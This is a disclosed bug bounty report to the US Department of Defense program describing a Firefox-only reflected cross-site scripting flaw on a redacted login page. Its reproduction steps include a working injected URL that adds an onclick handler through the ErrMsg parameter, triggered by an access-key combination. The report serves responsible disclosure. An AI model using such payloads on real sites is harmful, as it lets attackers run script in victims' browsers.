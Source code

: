 # Cross Site Scripting

## Report Details
- **Report ID**: 2587844
- **URL**: https://hackerone.com/reports/2587844
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-07-06T09:57:02.745Z
- **Disclosed**: 2024-08-16T16:10:05.230Z

## Reporter
- **Username**: prakhar0x01
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hii Team,

Through researching your asset, I found a XSS vulnerability at `www.███.████████`.

**The only concern is that it only works in the Firefox browser.**

## Impact

An attacker could execute arbitrary javascript in the client browser.

## System Host(s)
www.███.██████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1 - Open Firefox browser.
2 - Navigate to `https://www.██████.███████/852585B6003EBA25/Login.html?open&ErrMsg=invalidlogin%22%20test=%22X%22%20onclick=%22confirm(%27H4CKED%20BY%20PRAKHAR0X01%27)`
3 - Press : `ALT+SHIFT+X` on **Windows/Linux**, and on **OS X**, it’s `CTRL+ALT+X`.

**_NOTE: we need to convince the user to press a specific key combination. In Firefox on Windows/Linux, it’s `ALT+SHIFT+X`, and on OS X, it’s `CTRL+ALT+X`._**

███████

## Suggested Mitigation/Remediation Actions
- Sanitize the input effectively.



## Attachments
No attachments
